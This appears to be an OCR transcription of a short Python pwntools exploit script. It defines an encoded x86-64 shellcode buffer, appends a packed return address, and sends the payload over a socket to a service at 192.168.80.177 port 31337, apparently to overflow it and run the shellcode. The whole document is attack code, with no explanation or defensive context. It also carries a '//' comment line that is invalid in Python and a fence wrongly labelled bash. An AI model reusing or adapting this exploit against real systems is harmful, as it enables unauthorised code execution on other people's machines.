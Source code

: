 ```bash
//shell3322
from pwn import *

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31"
buf += b"\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26"
buf += b"\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1"
buf += b"\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d"
buf += b"\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69"
buf += b"\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45"
buf += b"\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66"
buf += b"\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90"

ret = p64(0x400cfb)
#ret = "\xfb\x0c\x40\x00"
print (ret)
payload = buf + ret

r = remote("192.168.80.177", 31337)
r.recv()
r.send(payload)
print("ok")
```
